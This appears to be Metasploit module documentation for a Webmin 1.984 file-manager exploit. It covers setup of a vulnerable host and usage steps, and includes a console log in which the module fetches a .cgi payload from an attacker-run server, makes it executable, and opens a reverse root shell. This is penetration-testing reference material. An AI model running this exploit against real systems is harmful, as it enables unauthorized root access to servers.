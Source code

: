 ## Vulnerable Application

In Webmin v1.984, any authenticated low privilege user without access rights to the
File Manager module could interact with file manager functionalities such as downloading files from remote URLs and changing
file permissions (chmod). It is possible to achieve Remote Code Execution via a crafted .cgi file by chaining those
functionalities in the file manager.

### Setup, on Ubuntu 20.04

```
wget https://download.webmin.com/devel/deb/webmin_1.984_all.deb
sudo dpkg -i  webmin_1.984_all.deb
```

Webmin should now be installed. The credentials for the web UI will be the same as the
user that installed Webmin

## Options
### USERNAME
A specific username to authenticate as
### PASSWORD
A specific password to authenticate with

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/webmin_file_manager_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a session as the `root` user.

## Scenarios
### Webmin 1.984, on Ubuntu 20.04

```
msf6 > exploit/linux/http/webmin_file_manager_rce
[*] Using exploit/linux/http/webmin_file_manager_rce
msf6 exploit(linux/http/webmin_file_manager_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/webmin_file_manager_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/webmin_file_manager_rce) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(linux/http/webmin_file_manager_rce) > set username msfuser
username => msfuser
msf6 exploit(linux/http/webmin_file_manager_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://172.16.199.1:8080/tmBFT82mvsHD
[*] Attempting to authenticate with Webmin
[+] Authentication successful
[*] Downloading remote url
[*] Fetching payload from HTTP server
[*] Request 'GET /tmBFT82mvsHD.cgi'
[*] Sending payload ...
[*] Finished downloading remote url
[*] Modifying the permissions of the uploaded payload to 0755
[+] Deleted /usr/share/webmin/tmBFT82mvsHD.cgi
[*] Command shell session 9 opened (172.16.199.1:4444 -> 172.16.199.132:58058) at 2022-10-25 16:21:02 -0400
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
